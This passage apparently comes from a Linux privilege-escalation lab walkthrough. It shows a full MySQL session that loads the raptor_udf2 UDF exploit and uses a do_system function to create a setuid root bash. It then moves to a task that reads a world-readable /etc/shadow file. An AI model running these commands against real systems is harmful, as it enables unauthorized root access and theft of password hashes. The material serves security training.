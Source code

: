 ```bash
Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)

mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                                0 |
+------------------------------------------------------------------+
1 row in set (0.01 sec)

mysql> Bye
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# rm /tmp/rootbash
rootbash-4.1# exit
```

# [Task 3] Weak File Permissions - Readable /etc/shadow

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-readable:

```bash
ls -l /etc/shadow
```

View the contents of the /etc/shadow file:

```bash
cat /etc/shadow
```
